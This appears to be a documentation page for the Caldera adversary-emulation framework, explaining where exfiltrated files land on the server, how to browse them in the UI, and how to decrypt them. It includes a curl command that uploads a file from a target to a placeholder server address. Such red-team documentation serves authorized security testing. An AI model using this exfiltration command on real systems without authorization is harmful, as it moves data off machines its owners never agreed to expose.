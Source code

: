 # Exfiltration

After completing an operation a user may want to review the data retreived from the target system. This data is automatically stored on the Caldera server in a directory specified in [/conf/default.yml](Server-Configuration.md#configuration-file).

## Exfiltrating Files

Some abilities will transfer files from the agent to the Caldera server. This can be done manually with 
```yaml
curl -X POST -F 'data=@/file/path/' http://server_ip:8888/file/upload
```
Note: localhost could be rejected in place of the server IP. In this case you will get error 7. You should type out the full IP.
These files are sent from the agent to server_ip/file/upload at which point the server places these files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-Configuration.md#configuration-file). By default it is set to `/tmp/caldera`.

## Accessing Exfiltrated Files

The server stores all exfiltrated files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-Configuration.md#configuration-file). By default it is set to `/tmp/caldera`.

Files can be accessed by pulling them directly from that location when on the server and manually unencrypting the files.

To simplify accessing exfiltrated files from a running caldera server, you can go the the advanced section in the Caldera UI and click on the 'exfilled files' section.

From there you can select an operation (or all) from the drop down to see a listing of all the files in the exfil folder corresponding to the operation (specifically works with sandcat agents or any other agent using the same naming scheme for file upload folder) or in the directory along with the option to select any number of files to download directly to your machine.

All downloaded files will be unencrypted before passing along as a download.

## Accessing Operations Reports

After the server is shut down the reports from operations are placed inside the directory specified by the [/conf/default.yml to key "reports_dir"](Server-Configuration.md#configuration-file). By default it is also set to `/tmp`.


## Unencrypting the files
The reports and exfiltrated files are encrypted on the server. To view the file contents the user will have to decrypt the file using /app/utility/file_decryptor.py . This can be performed with:

```shell
python /app/utility/file_decryptor.py --config /conf/default.yml _input file path_
```

The output file will already have the _decrypted tag appended to the end of the file name once the decrypted file is created by the python script.
